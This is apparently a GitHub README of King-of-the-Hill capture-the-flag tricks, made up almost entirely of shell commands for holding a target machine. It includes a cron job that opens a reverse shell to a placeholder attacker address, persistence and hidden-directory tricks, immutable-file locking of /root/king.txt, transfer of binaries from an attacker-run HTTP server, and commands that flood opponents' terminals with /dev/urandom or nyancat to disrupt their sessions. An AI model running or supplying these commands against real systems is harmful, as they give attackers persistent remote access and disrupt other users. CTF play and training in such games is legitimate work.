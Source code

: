 # KOTH-Tricks
## Make king.txt unwritable
### Using noclobber
```
set -o noclobber /root/king.txt
```
### Using chattr
```
 chattr +ai /root/king.txt
```
If chattr binary is not present on the machine you can download into your machine and after compiling you can upload into KOTH_machine and use it

Downloading into Local Machine
 ```
wget https://github.com/posborne/linux-programming-interface-exercises/blob/master/15-file-attributes/chattr.c
gcc chattr.c -o chattr
```
Uploading to KOTH_machine
```
python3 -m http.server 8080       //on your local machine start a python server
wget http://yourip:port/chattr   //on the KOTH_machine for download the binary
chmod +x chattr
./chattr +ai /root/king.txt
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use . for creating hidden directory where you can store your binaries
```
mkdir .hidden_folder
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use Cronjobs for automation
> Run 'crontab -e' and paste these line
### Reverse shell
```
* * * * * /bin/sh -i >& /dev/tcp/YOUR_IP/LISTENING_PORT 0>&1
```
### Write to king.txt
```
* * * * * echo "USERNAME" > /root/king.txt >/dev/null 2>&1
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Breaking opponent shell
### find opponent pts using these commands
```
ps aux | grep pts
who
w
```
### Spam urandom to opponent shell
```
cat /dev/urandom >/dev/pts/#
```
>  NOTE: place opponent pts in place of '#' 
### Using script
```
script -f /dev/pts/#
```
### Spam your username to opponent shell
```
while true; do echo 'YOUR_USERNAME' >/dev/pts/#; done 
```
### Using nyancat
Downloading nyancat to local Machine
```
git clone https://github.com/klange/nyancat
cd nyancat/src
make
```
Sending nyancat to KOTH_machine
```
python3 -m http.server 8080        //on your local machine start a python server into 'nyancat/src' folder
wget http://yourip:port/nyancat   //on the KOTH_machine
chmod +x nyancat
./nyancat > /dev/pts/#
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## while loop Tricks
```
while [[ $(cat /root/king.txt) != "YOUR_USERNAME" ]]; do echo "YOUR_USERNAME" > /root/king.txt; done
while true; do chattr -ia /root/king.txt 2>/dev/null; echo "YOUR_USERNAME" >/root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done
```

